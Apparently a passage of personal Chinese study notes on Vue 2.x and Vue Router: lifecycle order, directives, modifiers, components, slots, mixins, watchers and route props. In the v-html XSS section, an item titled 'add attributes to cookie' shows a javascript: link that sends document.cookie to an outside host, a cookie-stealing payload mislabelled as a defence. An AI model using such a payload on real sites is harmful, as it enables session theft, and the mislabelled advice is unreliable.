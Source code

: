 ## Vue2.x

### 生命周期

#### 父子组件生命周期执行顺序

- **加载渲染过程**

> **->父beforeCreate -> 父created -> 父beforeMount** 
>
> ***\->\******子beforeCreate -> 子created -> 子beforeMount -> 子mounted**
>
> **-> 父mounted**

- **子组件更新过程**

> **->父beforeUpdate**
>
> **-> 子beforeUpdate -> 子updated**
>
> **-> 父updated**

- **父组件更新过程**

> **父beforeUpdate -> 父updated**

- **销毁过程**

> **-> 父beforeDestroy**
>
> **-> 子beforeDestroy** **-> 子destroyed**
>
> **-> 父destroyed**

#### vue的生命周期

![](C:\Users\刘颖\Pictures\笔记\vue生命周期.png)



### Class与Style

#### Class 绑定HTML Class

​	对象里每一个键值对，键为类名，值为布尔类型 v-bind:class可以与普通的class一起用，

​    数组里的项是类名，数组中可以写对象

#### Style 绑定内联样式

`v-bind:style` 的对象语法十分直观——看着非常像 CSS，但其实是一个 JavaScript 对象。CSS property 名可以用驼峰式 (camelCase) 或短横线分隔 (kebab-case，记得用引号括起来) 来命名



### 模板语法

#### {{}}

​	大胡子语法

#### v-text

​	会把标签中的内容覆盖替换掉

#### v-html

​	将标签语义化展示在页面

​	容易产生xss攻击，应该只对可信内容使用HTML插值

##### 	如何防止xss攻击？

​	1.前端过滤

​	2.后台转义

```
    (<> 转为 &lt; &gt;)
```

3. 给cookie加上属性

   ```
   <a href=javascript:location.href='http://www.baidu.com?cookie='+document.cookie>click</a>
   ```

   #### 总结

   ```
   1.虽然上面三种方法都可以将数据渲染到页面上，但是工作中我最常用的是'{{}}'
   2.'{{}}' 最被常用但是在加载的时候会出现闪烁问题(指令篇章v-cloak会讲解解决方
   法)，而且只能吧html标签当字符串渲染
   3.'v-text' 虽然没有数据加载闪烁问题，但是会将标签中间的数据覆盖，也不能渲
   染html格式数据。
   4.'v-html' 谨慎使用会出现xss攻击的风险
   ```

   

### 指令用法

#### v-show与v-if

##### v-if

​	v-if如果复用，和key联合使用。

​	v-if在 '<template>' 元素上配合 v-if 使用的好处，就是可以将'<template>'作为一个整
体，且渲染的时候不显示'<template>'

##### v-show

​	不支持template元素，也不支持v-else

##### 二者区别

```
1.v-if 的特点：每次都会重新删除或创建元素("条件块内的事件监听器和子组件适当地被销毁和重建"),
v-if 也是惰性的：如果在初始渲染时条件为假，则什么也不做——直到条件第一次变为真时，才会开始渲染条件块
2.v-show 的特点：不管初始条件是什么，元素总是会被渲染，并且只是简单地基于 CSS 进行切换 ,
每次不会重新进行DOM的删除和创建操作，只是切换了元素的 display:none 样式
3.v-if 有较高的切换性能消耗
4.v-show 有较高的初始渲染消耗(不管真假都创建。v-if 只有真才创建)
5. 如果元素涉及到频繁的切换，最好不要使用 v-if, 而是推荐使用 v-show
6. 如果元素可能永远也不会被显示出来被用户看到，则推荐使用 v-if 
```

#### v-if与v-for

> v-for比v-if有更高的优先级，会先循环后if判断
>
> 永远不要把v-if与v-for同时用在一个元素

##### 具体实际应用

v-if与v-for不要搭配使用，建议用在计算属性里做好判断，然后用v-for循环

或者把v-if判断放在v-for外（即容器元素）

具体参考https://www.kancloud.cn/cyyspring/vuejs/1129238



#### 自定义事件

##### 自定义组件的v-model

一个组件上的 `v-model` 默认会利用名为 `value` 的 prop 和名为 `input` 的事件，但是像单选框、复选框等类型的输入控件可能会将 `value` attribute 用于[不同的目的](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/input/checkbox#Value)。`model` 选项可以用来避免这样的冲突：

```js
Vue.component('base-checkbox', {
  model: {
    prop: 'checked',
    event: 'change'
  },
  props: {
    checked: Boolean
  },
  template: `
    <input
      type="checkbox"
      v-bind:checked="checked"
      v-on:change="$emit('change', $event.target.checked)"
    >
  `
})
```

现在在这个组件上使用 `v-model` 的时候：

```js
<base-checkbox v-model="lovingVue"></base-checkbox>
```

这里的 `lovingVue` 的值将会传入这个名为 `checked` 的 prop。同时当 `<base-checkbox>` 触发一个 `change` 事件并附带一个新的值的时候，这个 `lovingVue` 的 property 将会被更新。

注意你仍然需要在组件的 `props` 选项里声明 `checked` 这个 prop



##### `.sync` 修饰符 

> 2.3.0+ 新增

在有些情况下，我们可能需要对一个 prop 进行“双向绑定”。不幸的是，真正的双向绑定会带来维护上的问题，因为子组件可以变更父组件，且在父组件和子组件两侧都没有明显的变更来源。

这也是为什么我们推荐以 `update:myPropName` 的模式触发事件取而代之。举个例子，在一个包含 `title` prop 的假设的组件中，我们可以用以下方法表达对其赋新值的意图：

```js
this.$emit('update:title', newTitle)
```

然后父组件可以监听那个事件并根据需要更新一个本地的数据 property。例如：

```js
<text-document
  v-bind:title="doc.title"
  v-on:update:title="doc.title = $event"
></text-document>
```

为了方便起见，我们为这种模式提供一个缩写，即 `.sync` 修饰符：

```js
<text-document v-bind:title.sync="doc.title"></text-document>
```

**注意**

带 `.sync` 修饰符的 `v-bind` **不能**和表达式一起使用 (例如 `v-bind:title.sync=”doc.title + ‘!’”` 无效，只能提供你想要绑定的 property 名，类似 `v-model`。



当用一个对象同时设置多个 prop 的时候，也可以将这个 `.sync` 修饰符和 `v-bind` 配合使用：

```js
<text-document v-bind.sync="doc"></text-document>
```

这样会把 `doc` 对象中的每一个 property (如 `title`) 都作为一个独立的 prop 传进去，然后各自添加用于更新的 `v-on` 监听器。

将 `v-bind.sync` 用在一个字面量的对象上，例如 `v-bind.sync=”{ title: doc.title }”`，无法正常工作。



#### 自定义指令

```
在 Vue2.0 中，代码复用和抽象的主要形式是组件。然而，有的情况下，你仍然需要对普通 DOM 元素进行底层操作，这时候就会用到'自定义指令'。
```

出现原因：对普通DOM元素进行底层操作

##### 用法详解

```
1.使用 Vue.directive() 定义全局的指令
2.第一参数是自定义组件名称
3.第二个参数是一个对象，对象中包含了一些钩子函数(均为可选)依次是：
    3.1.'bind'：只调用一次，指令第一次绑定到元素时调用。在这里可以进行一次性的初始化设置。
    3.2.'inserted'：被绑定元素插入父节点时调用 (仅保证父节点存在，但不一定已被插入文档中)。
    3.3.'update'：所在组件的 VNode 更新时调用，但是可能发生在其子 VNode 更新之前。指令的
       值可能发生了改变，也可能没有。但是你可以通过比较更新前后的值来忽略不必要的模板更新 
    3.4.'componentUpdated'：指令所在组件的 VNode及其子 VNode全部更新后调用。
    3.5.'unbind'：只调用一次，指令与元素解绑时调用。
    注：其中bind，inserted，unbind 是只调用一次，update是一些 属性重新生调用

4.这些钩子函数中参数依次为 'el、binding、vnode 和 oldVnode'
    4.1.'el' 是当前绑定自定义的dom元,可以直接操作dom
    4.2.'binding'是一个和自定义指令相关的对象内容包含依次如下：
        4.2.1.'name'：获取指令名，这里的指令名指的是不包括'v-'前缀。
        4.2.2.'value'：获取指令的绑定值，例如：v-my-directive="1 + 1" 中，绑定值为 2
        4.2.3.'oldValue'：指令绑定的前一个值，仅在 update 和 componentUpdated 钩子中可用。
              无论值是否改变都可用。
        4.2.4.'expression'：字符串形式的指令表达式。例如 v-my-directive="1 + 1" 中，表达式为 "1 + 1"。
        4.2.5.'arg'：传给指令的参数，可选。例如'v-my-directive:foo'中，参数为"foo"。
        4.2.6.'modifiers'：一个包含修饰符的对象。例如：'v-my-directive.foo.bar'中，
               修饰符对象为`{ foo: true, bar: true }`。
    4.3.'vnode'：Vue 编译生成的虚拟节点
    4.4.'oldVnode'：上一个虚拟节点，仅在'update'和'componentUpdated'钩子中可用
```



### [修饰符](https://blog.csdn.net/wqliuj/article/details/108654103)

#### 事件修饰符

.stop 阻止事件继续传播

.prevent 阻止标签默认行为

.capture 使用事件捕获模式,即元素自身触发的事件先在此处处理，然后才交由内部元素进行处理

.self 只当在 event.target 是当前元素自身时触发处理函数

.once 事件将只会触发一次

.passive 告诉浏览器你不想阻止事件的默认行为

**使用修饰符时，顺序很重要；相应的代码会以同样的顺序产生。因此，用`v-on:click.prevent.self`会阻止所有的点击，而 `v-on:click.self.prevent` 只会阻止对元素自身的点击。**



#### v-model的修饰符

<1> .lazy
默认情况下，v-model同步输入框的值和数据。可以通过这个修饰符，转变为在change事件再同步。

```html
<input v-model.lazy="msg">
```


<2> .number
自动将用户的输入值转化为数值类型

```html
<input v-model.number="msg">
```


<3> .trim
自动过滤用户输入的首尾空格

```html
<input v-model.trim="msg">
```



#### 键盘事件的修饰符

在我们的项目经常需要监听一些键盘事件来触发程序的执行，而Vue中允许在监听的时候添加关键修饰符：

```html
<input v-on:keyup.13="submit">
```

对于一些常用键，还提供了按键别名：

```html
<input @keyup.enter="submit">      <!-- 缩写形式 -->
```



##### 全部的按键别名

.enter
.tab
.delete (捕获“删除”和“退格”键)
.esc
.space
.up
.down
.left
.right

##### 修饰键

.ctrl
.alt
.shift
.meta

```html
<!-- Alt + C -->
<input @keyup.alt.67="clear">
<!-- Ctrl + Click -->
<div @click.ctrl="doSomething">Do something</div>
```



与按键别名不同的是，修饰键和 keyup 事件一起用时，事件引发时必须按下正常的按键。

换一种说法：如果要引发 keyup.ctrl，必须按下 ctrl 时释放其他的按键；单单释放 ctrl 不会引发事件。

```html
<!-- 按下Alt + 释放C触发 -->
<input @keyup.alt.67="clear">

<!-- 按下Alt + 释放任意键触发 -->
<input @keyup.alt="other">

<!-- 按下Ctrl + enter时触发 -->
<input @keydown.ctrl.13="submit">
```



#### element的修饰符

对于elementUI的input，我们需要在后面加上.native, 因为elementUI对input进行了封装，原生的事件不起作用。

```html
<input v-model="form.name" placeholder="昵称" @keyup.enter="submit">

<el-input v-model="form.name" placeholder="昵称" @keyup.enter.native="submit"></el-input>

```



#### 组件注册

##### 全局注册

至此，我们的组件都只是通过 `Vue.component` 全局注册的：

```js
Vue.component('my-component-name', {
  // ... options ...
})
```

##### 局部注册

全局注册往往是不够理想的。比如，如果你使用一个像 webpack 这样的构建系统，全局注册所有的组件意味着即便已经不再使用一个组件了，它仍然会被包含在最终的构建结果中。

这造成了用户下载的 JavaScript 的无谓的增加。

在这些情况下，可以通过一个普通的 JavaScript 对象来定义组件：

```js
var ComponentA = { /* ... */ }
var ComponentB = { /* ... */ }
var ComponentC = { /* ... */ }
```

然后在 `components` 选项中定义你想要使用的组件：

```js
new Vue({
  el: '#app',
  components: {
    'component-a': ComponentA,
    'component-b': ComponentB
  }
})
```

对于 `components` 对象中的每个 property 来说，其 property 名就是自定义元素的名字，其 property 值就是这个组件的选项对象。

注意**局部注册的组件在其子组件中\*不可用\***。例如，如果希望 `ComponentA` 在 `ComponentB` 中可用，则需要这样写：

```js
var ComponentA = { /* ... */ }

var ComponentB = {
  components: {
    'component-a': ComponentA
  },
  // ...
}
```

或者如果通过 Babel 和 webpack 使用 ES2015 模块，那么代码看起来更像：

```js
import ComponentA from './ComponentA.vue'

export default {
  components: {
    ComponentA
  },
  // ...
}

```

#### 动态组件

一个多标签的界面中使用 `is` attribute 来切换不同的组件：

```js
<component v-bind:is="currentTabComponent"></component>
```

当在这些组件之间切换，想保持这些组件的状态，以避免反复重渲染导致的性能问题，可以用一个 `<keep-alive>` 元素将其动态组件包裹起来

```js
<!-- 失活的组件将会被缓存！-->
<keep-alive>
  <component v-bind:is="currentTabComponent"></component>
</keep-alive>
```

**keep-alive注意点**

注意这个 `<keep-alive>` 要求被切换到的组件都有自己的名字，不论是通过组件的 `name` 选项还是局部/全局注册。



#### 异步组件

Vue 允许以一个工厂函数的方式定义组件，这个工厂函数会异步解析组件定义。

Vue 只有在这个组件需要被渲染的时候才会触发该工厂函数，且会把结果缓存起来供未来重渲染。

```js
Vue.component('async-example', function (resolve, reject) {
  setTimeout(function () {
    // 向 `resolve` 回调传递组件定义
    resolve({
      template: '<div>I am async!</div>'
    })
  }, 1000)
})
```

这个工厂函数会收到一个 `resolve` 回调，这个回调函数会在从服务器得到组件定义的时候被调用。

也可以调用 `reject(reason)` 来表示加载失败。

这里的 `setTimeout` 是为了演示用的，如何获取组件取决于你自己。



推荐的做法是将异步组件和 webpack 的 code-splitting 功能一起配合使用：

```js
Vue.component('async-webpack-example', function (resolve) {
  // 这个特殊的 `require` 语法将会告诉 webpack
  // 自动将你的构建代码切割成多个包，这些包
  // 会通过 Ajax 请求加载
  require(['./my-async-component'], resolve)
})
```

也可以在工厂函数中返回一个 `Promise`，所以把 webpack 2 和 ES2015 语法加在一起，可以这样使用动态导入：

```js
Vue.component(
  'async-webpack-example',
  // 这个动态导入会返回一个 `Promise` 对象。
  () => import('./my-async-component')
)
```

当使用局部注册的时候，也可以直接提供一个返回 `Promise` 的函数：

```js
new Vue({
  // ...
  components: {
    'my-component': () => import('./my-async-component')
  }
})
```

##### 处理加载状态

> 2.3.0+ 新增

这里的异步组件工厂函数也可以返回一个如下格式的对象：

```js
const AsyncComponent = () => ({  // 需要加载的组件 (应该是一个 `Promise` 对象)  component: import('./MyComponent.vue'),  // 异步组件加载时使用的组件  loading: LoadingComponent,  // 加载失败时使用的组件  error: ErrorComponent,  // 展示加载时组件的延时时间。默认值是 200 (毫秒)  delay: 200,  // 如果提供了超时时间且组件加载也超时了，  // 则使用加载失败时使用的组件。默认值是：`Infinity`  timeout: 3000})
```

> 注意如果希望在 Vue Router 的路由组件中使用上述语法的话，必须使用 Vue Router 2.4.0+ 版本。



### 过滤器

#### 过滤器的定义

![过滤器的定义](C:\Users\刘颖\Documents\Screenshot\过滤器的定义.png)

#### 过滤器接收参数

![过滤器的参数](C:\Users\刘颖\Documents\Screenshot\过滤器的参数.png)



#### 过滤器的应用

![过滤器的应用场景](C:\Users\刘颖\Documents\Screenshot\过滤器的应用场景.png)



### 插件

通常用来为Vue添加全局功能。

#### 使用插件

通过全局方法Vue.use()使用插件，需要在调用new Vue()启动应用之前完成。

Vue.js官方提供的一些插件（例如vue-router）在检测到Vue是可访问的全局变量时会自动调用Vue.use()，然而在像CommonJS这样的模块环境中，应该始终显式调用Vue.use()

#### 功能范围

1. 添加全局方法或者 property。如：vue-custom-element
2. 添加全局资源：指令/过滤器/过渡等。如 vue-touch
3. 通过全局混入来添加一些组件选项。如 vue-router
4. 添加 Vue 实例方法，通过把它们添加到 `Vue.prototype` 上实现。
5. 一个库，提供自己的 API，同时提供上面提到的一个或多个功能。如 vue-router

使用插件 全局方法Vue.use()

- 通过全局方法 `Vue.use()` 使用插件
- 需要在你调用 `new Vue()` 启动应用之**前**完成

```js
// 调用 `MyPlugin.install(Vue)`
Vue.use(MyPlugin)

new Vue({
  // ...组件选项
})
```

也可以传入一个可选的选项对象：

```js
Vue.use(MyPlugin, { someOption: true })
```

`Vue.use` 自动阻止多次注册相同插件，即使多次调用也只会注册一次该插件。

Vue.js 官方提供的一些插件 (例如 `vue-router`) 在检测到 `Vue` 是可访问的全局变量时会自动调用 `Vue.use()`。然而在像 CommonJS 这样的模块环境中，应该**始终显式地调用** `Vue.use()`

```
// 用 Browserify 或 webpack 提供的 CommonJS 模块环境时
var Vue = require('vue')
var VueRouter = require('vue-router')

// 不要忘了调用此方法
Vue.use(VueRouter)
```

#### 开发插件

Vue.js 的插件应该暴露一个 `install` 方法。这个方法的第一个参数是 `Vue` 构造器，第二个参数是一个可选的选项对象：

```js
MyPlugin.install = function (Vue, options) {
  // 1. 添加全局方法或 property
  Vue.myGlobalMethod = function () {
    // 逻辑...
  }

  // 2. 添加全局资源
  Vue.directive('my-directive', {
    bind (el, binding, vnode, oldVnode) {
      // 逻辑...
    }
    ...
  })

  // 3. 注入组件选项
  Vue.mixin({
    created: function () {
      // 逻辑...
    }
    ...
  })

  // 4. 添加实例方法
  Vue.prototype.$myMethod = function (methodOptions) {
    // 逻辑...
  }
}
```





#### 案例 自定义插件开发与使用

开发插件

![](C:\Users\刘颖\Documents\tips截图\【VUE基础】自定义插件一.png)

使用插件，使用Vue.use()

![](C:\Users\刘颖\Documents\tips截图\【VUE基础】自定义插件二.png)

![](C:\Users\刘颖\Documents\tips截图\【VUE基础】自定义插件三.png)



#### 引入第三方UI框架和第三方框架

babel-plugin-import是一款 babel 插件，它会在编译过程中将 import 的写法自动转换为按需引入的方式

**方法一：配置 webpack ProvidePlugin 全局引入**

假设要使用到 jquery，那么可以通过配置 webpack 的 ProvidePlugin 的插件来全局引入：

```js
new webpack.ProvidePlugin({
 $: 'jquery',
 jQuery: 'jquery'
})

```

**方法二：包装成插件在 Vue 中调用 use 方法安装**

另外一种比较靠谱的方法是将第三方模块打包成插件，如我需要全局使用 echarts，那么在 src 目录下新建一个 lib，并创建名为 echarts.js 的文件：

```js
import echarts from 'echarts'

export default {
 install (Vue) {
  Object.defineProperty(Vue.prototype, '$echarts', {
   value: echarts
  })
 }
}
```

上述代码 export 一个对象，对象包含一个 install 方法，该方法的参数是 Vue 构造函数，我们使用 Object.defineProperty 或 Reflect 的方法将 $echarts 定义到 Vue.prototype 中去。

然后在项目中使用：

```js
import echarts from './lib/echarts'

Vue.use(echarts) // use

new Vue({
  // ...
}).$mount('#app')

```

这样就可以在 vue 实例中通过 $echarts 来使用

```js
// ...
let myChart = this.$echarts.init(this.$refs.main)
// ...

```

**其他方法**

其他还有在 window 对象中全局定义；或使用 Vue.prototype.xxx = xxx 等，都存在各样问题，如 window 会导致全局作用域污染；后者定义方式不可靠，比方说 echarts 模块太大，会经常出现扩展定义失败导致的报错



#### 引入element

##### 完整引入

在 main.js 中写入以下内容：

```javascript
import Vue from 'vue';
import ElementUI from 'element-ui';
import 'element-ui/lib/theme-chalk/index.css';
import App from './App.vue';

Vue.use(ElementUI);

new Vue({
  el: '#app',
  render: h => h(App)
});
```

以上代码便完成了 Element 的引入。需要注意的是，样式文件需要单独引入。

##### 按需引入

借助 babel-plugin-component，我们可以只引入需要的组件，以达到减小项目体积的目的。

首先，安装 babel-plugin-component：

```bash
npm install babel-plugin-component -D
```

然后，将 .babelrc 修改为：

```json
{
  "presets": [["es2015", { "modules": false }]],
  "plugins": [
    [
      "component",
      {
        "libraryName": "element-ui",
        "styleLibraryName": "theme-chalk"
      }
    ]
  ]
}
```

接下来，如果只希望引入部分组件，比如 Button 和 Select，那么需要在 main.js 中写入以下内容：

```javascript
import Vue from 'vue';
import { Button, Select } from 'element-ui';
import App from './App.vue';

Vue.component(Button.name, Button);
Vue.component(Select.name, Select);
/* 或写为
 * Vue.use(Button)
 * Vue.use(Select)
 */

new Vue({
  el: '#app',
  render: h => h(App)
});
```



#### Vue.use()

#### 场景

`Vue.use(VueRouter)`、`Vue.use(MintUI)`。但是用 `axios`时，就不需要用 `Vue.use(axios)`，就能直接使用。那这是为什么呐？

#### 答案

axios没有install。

自定义需要一个Vue.use()的组件，就是有install的组件。

因为Axios本身就不是Vue的组件，它是通用化AJAX库，它不是为了Vue而存在的，而是$.ajax的替代解决方案，仅此而已。
提供install方法，只是为了让Vue可以将组件注册到框架里去





### 插槽

##### 插槽内容

Vue 实现了一套内容分发的 API，将 `<slot>` 元素作为承载分发内容的出口。

##### 编译作用域

父级模板里的所有内容都是在父级作用域中编译的；子模板里的所有内容都是在子作用域中编译的。

##### 后备内容

后备内容放在 `<slot>` 标签内。

不提供任何插槽内容时，后备内容将会被渲染。

如果提供内容，提供的内容将取后备内容渲染。

##### 具名插槽

`<slot>` 元素有一个特殊的 attribute：`name`。这个 attribute 可以用来定义额外的插槽，一个不带 `name` 的 `<slot>` 出口会带有隐含的名字“default”。

在向具名插槽提供内容的时候，可以在一个 `<template>` 元素上使用 `v-slot` 指令，并以 `v-slot` 的参数的形式提供其名称

```js
<base-layout>
  <template v-slot:header>
    <h1>Here might be a page title</h1>
  </template>

  <p>A paragraph for the main content.</p>
  <p>And another one.</p>

  <template v-slot:footer>
    <p>Here's some contact info</p>
  </template>
</base-layout>
```

现在 `<template>` 元素中的所有内容都将会被传入相应的插槽。任何没有被包裹在带有 `v-slot` 的 `<template>` 中的内容都会被视为默认插槽的内容。

##### 作用域插槽

为了让 `user` 在父级的插槽内容中可用，我们可以将 `user` 作为 `<slot>` 元素的一个 attribute 绑定上去

绑定在 `<slot>` 元素上的 attribute 被称为**插槽 prop**。现在在父级作用域中，我们可以使用带值的 `v-slot` 来定义我们提供的插槽 prop 的名字：

```js
<current-user>
  <template v-slot:default="slotProps">
    {{ slotProps.user.firstName }}
  </template>
</current-user>
```

在这个例子中，我们选择将包含所有插槽 prop 的对象命名为 `slotProps`，但也可以使用任意的名字。

###### 独占默认插槽的缩写语法

当被提供的内容**只有默认插槽**时，组件的标签才可以被当作插槽的模板来使用。这样我们就可以把 `v-slot` 直接用在组件上：

```js
<current-user v-slot:default="slotProps">
  {{ slotProps.user.firstName }}
</current-user>
```

这种写法还可以更简单。就像假定未指明的内容对应默认插槽一样，不带参数的 `v-slot` 被假定对应默认插槽：

```js
<current-user v-slot="slotProps">
  {{ slotProps.user.firstName }}
</current-user>
```

默认插槽的缩写语法不能与具名插槽混用，会导致作用域不明确

只要出现多个插槽，应该使用完整的机遇template的语法

```js
<current-user>
  <template v-slot:default="slotProps">
    {{ slotProps.user.firstName }}
  </template>

  <template v-slot:other="otherSlotProps">
    ...
  </template>
</current-user>
```

###### 结构插槽Prop

作用域插槽的内部工作原理是将插槽内容包裹在一个拥有单个参数的函数里，这意味着 `v-slot` 的值实际上可以是任何能够作为函数定义中的参数的 JavaScript 表达式。

所以在支持的环境下 (单文件组件或现代浏览器)，你也可以使用 ES2015 解构来传入具体的插槽 prop：

```js
<current-user v-slot="{ user }">
  {{ user.firstName }}
</current-user>
```

这样可以使模板更简洁，尤其是在该插槽提供了多个 prop 的时候。它同样开启了 prop 重命名等其它可能，例如将 `user` 重命名为 `person`：

```js
<current-user v-slot="{ user: person }">
  {{ person.firstName }}
</current-user>
```

你甚至可以定义后备内容，用于插槽 prop 是 undefined 的情形：

```js
<current-user v-slot="{ user = { firstName: 'Guest' } }">
  {{ user.firstName }}
</current-user>
```



### 混入

混入 (mixin) 提供了一种非常灵活的方式，来分发 Vue 组件中的可复用功能。一个混入对象可以包含任意组件选项。当组件使用混入对象时，所有混入对象的选项将被“混合”进入该组件本身的选项

##### 选项合并

当组件和混入对象含有同名选项时，这些选项将以恰当的方式进行“合并”。

比如，数据对象在内部会进行递归合并，并在发生冲突时以**组件数据优先**。

```js
var mixin = {
  data: function () {
    return {
      message: 'hello',
      foo: 'abc'
    }
  }
}

new Vue({
  mixins: [mixin],
  data: function () {
    return {
      message: 'goodbye',
      bar: 'def'
    }
  },
  created: function () {
    console.log(this.$data)
    // => { message: "goodbye", foo: "abc", bar: "def" }
  }
})
```

同名钩子函数将合并为一个数组，因此都将被调用。另外，混入对象的钩子将在组件自身钩子**之前**调用。

值为对象的选项，例如 `methods`、`components` 和 `directives`，将被合并为同一个对象。两个对象键名冲突时，取**组件对象的键值对**。

> `Vue.extend()` 也使用同样的策略进行合并。

##### 全局混入

混入也可以进行全局注册。使用时格外小心！一旦使用全局混入，它将影响**每一个**之后创建的 Vue 实例。使用恰当时，这可以用来为自定义选项注入处理逻辑。

```JS
// 为自定义的选项 'myOption' 注入一个处理器。
Vue.mixin({
  created: function () {
    var myOption = this.$options.myOption
    if (myOption) {
      console.log(myOption)
    }
  }
})

new Vue({
  myOption: 'hello!'
})
// => "hello!"
```

请谨慎使用全局混入，因为它会影响每个单独创建的 Vue 实例 (包括第三方组件)。大多数情况下，只应当应用于自定义选项，就像上面示例一样。推荐将其作为**插件**发布，以避免重复应用混入。





### watch与computed

##### vm.$watch(expOrFn，callback，[options])

![](C:\Users\刘颖\Documents\tips截图\【vm】watcher.png)

用于观察一个**表达式**或**computed函数**在vue实例上的变化。表达式只接受**以点分割**的路径

返回一个取消观察函数，用来停止触发回调。



#### immediate:true

第一次渲染的时候不会执行，如果想让第一次就监听使用immediate或者直接计算属性，其中在handler方法中监听新旧值

#### deep

监听对象内部内容，因为对象是一个地址，内部内容改变，但是地址没变就监听不到，所以此时需要deep

为了发现对象内部值的变化，可以在选项参数中指定deep:true，监听**数组**的变动**不需要**这么做

#### 优化建议

绑定监听浪费性能，如果只监听一项，就写一个子串“obj.a”的形式



#### vm.$

所有以vm.$开头的方法，都是在Vue.js原型上设置的。



### Vue页面顺序

vue页面顺序规范https://www.cnblogs.com/isylar/p/11224232.html

> name: 组件名
>
> components 应用组件
>
> props 接收来自父组件的数据，可以是数组，也可以是对象
>
> data() 实例的数据对象 
>
> computed 计算属性
>
> watch 侦听属性
>
> mixins  
>
> 生命周期钩子函数
>
> methods



## Vue-router

#### VueRouter  匹配优先级

同一个路径匹配多个路由，匹配的优先级按照路由的定义顺序，先定义的优先级高

含有通配符的路由应该放在最后，路由 `{ path: '*' }` 通常用于客户端 404 错误

#### 嵌套路由注意点

> 要在嵌套的出口中渲染组件，需要在 `VueRouter` 的参数中使用 `children` 配置

**以 `/` 开头的嵌套路径会被当作根路径。 可供充分使用嵌套组件而无须设置嵌套的路径**

```
使用 children 属性，实现子路由，同时，子路由的 path 前面，不要带 / ，否则永远以根路径开始请求，这样不方便我们用户去理解URL地址
```

#### 动态路由

一个‘路径参数'使用 ：标记

##### 动态参数变化 组件不会被渲染

```
简单的说就是不会触发生命周期初始化时候从'beforeCreate'到'mounted'这个
区间的生命周期，而是认为是相同组件每次只会更新'beforeUpdated'和'updated'。
一般情况下在一些初始化操作例如 接口请求的时候会在'beforeCreate'到'mounted'这个
区间的生命周期来请求接口，因为动态路由的缘故从 /user/foo 导航到 /user/bar 是不会再触发这些生命周期相对的替代办法。
```

1.使用’watch‘监听重新触发

```js
const User = {
  template: '...',
  watch: {
    '$route' (to, from) {
      // 对路由变化作出响应...
    }
  }
}
```

2.用’beforeRouteUpdate‘导航守卫

```js
const User = {
  template: '...',
  beforeRouteUpdate (to, from, next) {
    // react to route changes...
    // don't forget to call next()
  }
}
```

#### 命名路由

```
1.上面的案例都是通过'router-link' 中的'to'属性和制定的连接进行搭配跳转，
命名路由则是，路由中定义的名字进行跳转
2.思考为什么要这么做，首先在路由的时候，我们定义了一个组件和一个
对应的跳转链接，链接我们已经在路由阶段定义好了，那么是否还需要在
'router-link' 在定义一次呢？其实这个就是利用了命名路由，我们在配置路由
的时候加一个name，让name和'router-link' 进行匹配
3. 书写时候注意，'router-link'的'to' 要用'v-bind' 去绑定，注意'name' 对着的value
是变量是字符串。
```

#### 命名视图 离谱 也是一种应用



#### $router 路由函数使用

```
关于'VueRouter'实例的路由对象内部会有关于路由相关的方法，其中'currentRoute'为当前路由对应
  的路由信息对象也就是下一章节要说的'$route' 
```

```、
$router.currentRoute   $route
```

##### 路由跳转 声明式和编程式 

```
在官方文档中有解释道'<router-link :to="..."> 声明式写法'，'router.push(...)编程式写法'，
点击 <router-link :to="..."> 等同于调用 router.push(...)
```

this.$router.push

> 1.this.$router.push('参数是路由地址')-- 跳转指定页
> 2.注意push 是在 history 栈添加一个新的记录，因此当使用后退功能的时候可以后退到上一个网址
> 3.注意push路径参数都不带斜杠
> 4.当你点击 <router-link> 时，这个方法会在内部调用，所以说，点击 <router-link :to="..."> 等同于调用 router.push(...)
>
> 5.如果提供了path，params会被忽略

#### 路由组件传参（路由解耦） 使用props

在组件中使用 `$route` 会使之与其对应路由形成高度耦合，从而使组件只能在某些特定的 URL 上使用，限制了其灵活性。

使用 `props` 将组件和路由解耦：

**取代与 `$route` 的耦合**

```js
const User = {
  template: '<div>User {{ $route.params.id }}</div>'
}
const router = new VueRouter({
  routes: [{ path: '/user/:id', component: User }]
})
```

**通过 `props` 解耦**

```js
const User = {
  props: ['id'],
  template: '<div>User {{ id }}</div>'
}
const router = new VueRouter({
  routes: [
    { path: '/user/:id', component: User, props: true },

    // 对于包含命名视图的路由，你必须分别为每个命名视图添加 `props` 选项：
    {
      path: '/user/:id',
      components: { default: User, sidebar: Sidebar },
      props: { default: true, sidebar: false }
    }
  ]
})
```

这样你便可以在任何地方使用该组件，使得该组件更易于重用和测试

##### 布尔模式

如果 `props` 被设置为 `true`，`route.params` 将会被设置为组件属性。

##### 对象模式

如果 `props` 是一个对象，它会被按原样设置为组件属性。当 `props` 是静态的时候有用。

```js
const router = new VueRouter({
  routes: [
    {
      path: '/promotion/from-newsletter',
      component: Promotion,
      props: { newsletterPopup: false }
    }
  ]
})
```

##### 函数模式

你可以创建一个函数返回 `props`。这样你便可以将参数转换成另一种类型，将静态值与基于路由的值结合等等。

```js
const router = new VueRouter({
  routes: [
    {
      path: '/search',
      component: SearchUser,
      props: route => ({ query: route.query.q })
    }
  ]
})
```

URL `/search?q=vue` 会将 `{query: 'vue'}` 作为属性传递给 `SearchUser` 组件。

请尽可能保持 `props` 函数为无状态的，因为它只会在路由发生变化时起作用。如果你需要状态来定义 `props`，请使用包装组件，这样 Vue 才可以对状态变化做出反应。



#### 路由元信息（meta）

应用：配合路由守卫，检查是否登录

定义路由的时候可以配置 `meta` 字段：

```js
const router = new VueRouter({
  routes: [
    {
      path: '/foo',
      component: Foo,
      children: [
        {
          path: 'bar',
          component: Bar,
          // a meta field
